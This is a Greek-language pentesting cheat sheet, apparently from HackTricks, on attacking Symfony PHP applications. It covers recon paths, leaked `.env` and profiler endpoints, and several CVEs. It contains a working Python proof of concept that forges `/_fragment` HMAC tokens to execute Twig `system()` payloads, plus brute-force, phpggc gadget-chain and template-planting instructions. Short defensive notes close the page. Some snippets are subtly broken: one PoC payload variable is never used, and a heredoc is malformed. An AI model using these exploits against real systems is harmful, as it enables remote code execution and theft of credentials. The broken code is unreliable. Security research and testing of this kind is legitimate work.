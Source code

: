 # Symfony

{{#include ../../banners/hacktricks-training.md}}

Το Symfony είναι ένα από τα πιο ευρέως χρησιμοποιούμενα PHP frameworks και εμφανίζεται τακτικά σε αξιολογήσεις στόχων επιχείρησης, ηλεκτρονικού εμπορίου και CMS (Drupal, Shopware, Ibexa, OroCRM … όλα ενσωματώνουν στοιχεία του Symfony). Αυτή η σελίδα συγκεντρώνει επιθετικές συμβουλές, κοινές κακοδιαμορφώσεις και πρόσφατες ευπάθειες που θα πρέπει να έχετε στη λίστα ελέγχου σας όταν ανακαλύπτετε μια εφαρμογή Symfony.

> Ιστορική σημείωση: Ένα μεγάλο μέρος του οικοσυστήματος εξακολουθεί να τρέχει την έκδοση **5.4 LTS** (EOL **Νοέμβριος 2025**). Πάντα να επαληθεύετε την ακριβή μικρή έκδοση γιατί πολλές από τις συμβουλές ασφαλείας 2023-2025 διορθώθηκαν μόνο σε patch releases (π.χ. 5.4.46 → 5.4.50).

---

## Recon & Enumeration

### Finger-printing
* HTTP response headers: `X-Powered-By: Symfony`, `X-Debug-Token`, `X-Debug-Token-Link` ή cookies που ξεκινούν με `sf_redirect`, `sf_session`, `MOCKSESSID`.
* Διαρροές πηγαίου κώδικα (`composer.json`, `composer.lock`, `/vendor/…`) συχνά αποκαλύπτουν την ακριβή έκδοση:
```bash
curl -s https://target/vendor/composer/installed.json | jq '.[] | select(.name|test("symfony/")) | .name,.version'
```
* Δημόσιες διαδρομές που υπάρχουν μόνο στο Symfony:
* `/_profiler`   (Symfony **Profiler** & debug toolbar)
* `/_wdt/<token>` (“Web Debug Toolbar”)
* `/_error/{code}.{_format}` (όμορφες σελίδες σφαλμάτων)
* `/app_dev.php`, `/config.php`, `/config_dev.php` (προ-4.0 dev front-controllers)
* Wappalyzer, BuiltWith ή ffuf/feroxbuster wordlists: `symfony.txt` → αναζητήστε `/_fragment`, `/_profiler`, `.env`, `.htaccess`.

### Interesting files & endpoints
| Path | Why it matters |
|------|----------------|
| `/.env`, `/.env.local`, `/.env.prod` | Συχνά κακώς αναπτυχθέντα → διαρροές `APP_SECRET`, DB creds, SMTP, AWS keys |
| `/.git`, `.svn`, `.hg` | Διαρροή πηγής → διαπιστευτήρια + επιχειρηματική λογική |
| `/var/log/*.log`, `/log/dev.log` | Κακή διαμόρφωση web-root εκθέτει stack-traces |
| `/_profiler` | Πλήρης ιστορία αιτημάτων, διαμόρφωση, service container, **APP_SECRET** (≤ 3.4) |
| `/_fragment` | Σημείο εισόδου που χρησιμοποιείται από ESI/HInclude. Κατάχρηση δυνατή μόλις γνωρίζετε το `APP_SECRET` |
| `/vendor/phpunit/phpunit/phpunit` | PHPUnit RCE αν είναι προσβάσιμο (CVE-2017-9841) |
| `/index.php/_error/{code}` | Finger-print & μερικές φορές διαρροή εξαιρέσεων |

---

## High-impact Vulnerabilities (2023-2025)

### 1. APP_SECRET disclosure ➜ RCE via `/_fragment` (aka “secret-fragment”)
* **CVE-2019-18889** αρχικά, αλλά *ακόμα* εμφανίζεται σε σύγχρονους στόχους όταν το debug παραμένει ενεργοποιημένο ή το `.env` είναι εκτεθειμένο.
* Μόλις γνωρίζετε το 32-char `APP_SECRET`, δημιουργήστε ένα HMAC token και καταχραστείτε τον εσωτερικό `render()` controller για να εκτελέσετε αυθαίρετο Twig:
```python
# PoC – απαιτεί το μυστικό
import hmac, hashlib, requests, urllib.parse as u
secret = bytes.fromhex('deadbeef…')
payload = "{{['id']|filter('system')}}"   # RCE in Twig
query = {
'template': '@app/404.html.twig',
'filter': 'raw',
'_format': 'html',
'_locale': 'en',
'globals[cmd]': 'id'
}
qs = u.urlencode(query, doseq=True)
token = hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest()
r = requests.get(f"https://target/_fragment?{qs}&_token={token}")
print(r.text)
```
* Εξαιρετική περιγραφή & script εκμετάλλευσης: Ambionics blog (συνδεδεμένο στις Αναφορές).

### 2. Windows Process Hijack – CVE-2024-51736
* Το `Process` component αναζητούσε τον τρέχοντα κατάλογο εργασίας **πριν** από το `PATH` στα Windows. Ένας επιτιθέμενος που μπορεί να ανεβάσει `tar.exe`, `cmd.exe`, κ.λπ. σε ένα εγγράψιμο web-root και να ενεργοποιήσει το `Process` (π.χ. εξαγωγή αρχείων, δημιουργία PDF) αποκτά εκτέλεση εντολών.
* Διορθώθηκε στην 5.4.50, 6.4.14, 7.1.7.

### 3. Session-Fixation – CVE-2023-46733
* Ο φρουρός αυθεντικοποίησης επαναχρησιμοποίησε ένα υπάρχον session ID μετά την είσοδο. Εάν ένας επιτιθέμενος ρυθμίσει το cookie **πριν** ο θύμα αυθεντικοποιηθεί, καταλαμβάνει τον λογαριασμό μετά την είσοδο.

### 4. Twig sandbox XSS – CVE-2023-46734
* Σε εφαρμογές που εκθέτουν templates ελεγχόμενα από τον χρήστη (admin CMS, email builder) το φίλτρο `nl2br` θα μπορούσε να καταχραστεί για να παρακάμψει την sandbox και να εισάγει JS.

### 5. Symfony 1 gadget chains (ακόμα βρέθηκαν σε κληρονομημένες εφαρμογές)
* `phpggc symfony/1 system id` παράγει ένα Phar payload που ενεργοποιεί RCE όταν συμβαίνει unserialize() σε κλάσεις όπως `sfNamespacedParameterHolder`. Ελέγξτε τα endpoints ανεβάσματος αρχείων και τα wrappers `phar://`.

{{#ref}}
../../pentesting-web/deserialization/php-deserialization-+-autoload-classes.md
{{#endref}}

---

## Exploitation Cheat-Sheet

### Calculate HMAC token for `/_fragment`
```bash
python - <<'PY'
import sys, hmac, hashlib, urllib.parse as u
secret = bytes.fromhex(sys.argv[1])
qs     = u.quote_plus(sys.argv[2], safe='=&')
print(hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest())
PY deadbeef… "template=@App/evil&filter=raw&_format=html"
```
### Bruteforce αδύναμου `APP_SECRET`
```bash
cewl -d3 https://target -w words.txt
symfony-secret-bruteforce.py -w words.txt -c abcdef1234567890 https://target
```
### RCE μέσω εκτεθειμένου Symfony Console
Αν το `bin/console` είναι προσβάσιμο μέσω `php-fpm` ή άμεσης μεταφόρτωσης CLI:
```bash
php bin/console about        # confirm it works
php bin/console cache:clear --no-warmup
```
Χρησιμοποιήστε gadgets αποδοχής μέσα στον κατάλογο cache ή γράψτε ένα κακόβουλο Twig template που θα εκτελείται στην επόμενη αίτηση.

---

## Αμυντικές σημειώσεις
1. **Ποτέ μην αναπτύσσετε debug** (`APP_ENV=dev`, `APP_DEBUG=1`) σε παραγωγή; αποκλείστε το `/app_dev.php`, `/_profiler`, `/_wdt` στη ρύθμιση του web-server.
2. Αποθηκεύστε μυστικά σε env vars ή `vault/secrets.local.php`, *ποτέ* σε αρχεία προσβάσιμα μέσω του document-root.
3. Επιβάλετε τη διαχείριση patches – εγγραφείτε σε συμβουλές ασφαλείας του Symfony και διατηρήστε τουλάχιστον το επίπεδο patch LTS.
4. Εάν τρέχετε σε Windows, αναβαθμίστε άμεσα για να μετριάσετε το CVE-2024-51736 ή προσθέστε μια άμυνα βάθους `open_basedir`/`disable_functions`.

---

### Χρήσιμα επιθετικά εργαλεία
* **ambionics/symfony-exploits** – secret-fragment RCE, ανακάλυψη διαδρομών debugger.
* **phpggc** – Έτοιμες αλυσίδες gadgets για Symfony 1 & 2.
* **sf-encoder** – μικρός βοηθός για τον υπολογισμό του `_fragment` HMAC (υλοποίηση Go).

## Αναφορές
* [Ambionics – Symfony “secret-fragment” Remote Code Execution](https://www.ambionics.io/blog/symfony-secret-fragment)
* [Symfony Security Advisory – CVE-2024-51736: Command Execution Hijack on Windows Process Component](https://symfony.com/blog/cve-2024-51736-command-execution-hijack-on-windows-with-process-class)
{{#include ../../banners/hacktricks-training.md}}
